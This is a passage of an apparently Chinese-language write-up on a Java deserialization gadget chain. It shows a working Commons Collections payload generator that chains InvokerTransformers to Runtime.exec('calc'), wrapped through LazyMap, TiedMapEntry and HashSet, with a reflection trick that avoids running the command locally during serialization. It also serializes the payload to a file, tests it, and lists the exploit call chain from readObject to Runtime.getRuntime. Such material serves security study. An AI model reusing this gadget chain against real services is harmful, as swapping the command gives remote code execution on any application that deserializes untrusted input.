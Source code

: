 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[]{}}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        Map map = new HashMap();
        Map lazyMap = LazyMap.decorate(map, fakeTransformerransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "keykey");

        HashSet hashSet = new HashSet(1);
        hashSet.add(tiedMapEntry);
        lazyMap.remove("keykey");  //如果不加这个就无法弹出计算器

        //通过反射覆盖原本的iTransformers，防止序列化时在本地执行命令
        Field field = ChainedTransformer.class.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(fakeTransformerransformer, transformers);
        return hashSet;
    }

    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(), "obj");
        payloadTest("obj");
    }

    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }

    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 利用链

```
java.io.ObjectInputStream.readObject()
            HashSet.readObject()
                HashMap.put()
                HashMap.hash()
                    TiedMapEntry.hashCode()
                    TiedMapEntry.getValue()
                        LazyMap.get()
                            ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
```